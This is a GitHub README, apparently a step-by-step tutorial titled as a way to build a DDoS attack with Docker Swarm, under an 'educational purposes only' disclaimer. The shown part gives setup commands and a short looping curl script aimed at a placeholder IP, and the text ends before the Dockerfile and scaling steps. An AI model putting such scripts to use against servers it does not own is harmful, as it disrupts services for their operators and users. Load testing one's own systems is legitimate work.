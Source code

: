 # Docker-Swarm-DDOS
## How to create a Denial of Service Attack through Docker Swarm.
#### Quick Disclaimer: This information is for educational purposes only and should not be used with malicous intent. Also the following guide has been tested only for Mac and Ubuntu, minor differences might exist on other OS.

This repository will help you to create a DDOS attack on a server. This could be useful if working on a project and trying to test out what will happen if there is some traffic, heavy traffic or a full fleshed DDOS attack.

### List of Tasks

- [ ] Installing Docker
- [ ] Creating the Script
- [ ] Setting up Dockerfile
- [ ] Creating a Custom Docker Image
- [ ] Creating and Scaling a Service


### Installing Docker
If you have this part already complete feel free to move on to the next, otherwise here is a link that you could follow in order to get this part started.

Please instiall the proper verison for your OS and then return back to this guide. :+1:

https://www.docker.com/community-edition

- [x] Installing Docker

### Creating the Script
Now that we have Docker installed and running lets get started with creating a directory.
It doesnt matter where this directory is, but to keep in simple for now I'll go with this

```
$ mkdir $HOME/DockerAttack
$ cd $HOME/DockerAttack
```
>Following is done through iTerm or a Terminal
>I personally use vim for this, but any way would really do.
>$ vim curlAttack.sh
There's not much to the script, in fact its a simple looping curl, it looks something like this
```sh
while true
do
#Please use 'man curl' to see what -vk is for, also -X command can be useful too.
curl -vk https:://<ip>
#sleep 5
done
exit 0
```
> I'd actually reccomend to first write a curl command that works for your server in a terminal, then copy paste it into the script.

At this point you could test it out by adding execution permission and then running it.
```
$ chmod +x curlAttack.sh
$ ./curlAttack.sh
```

- [x] Creating the Script
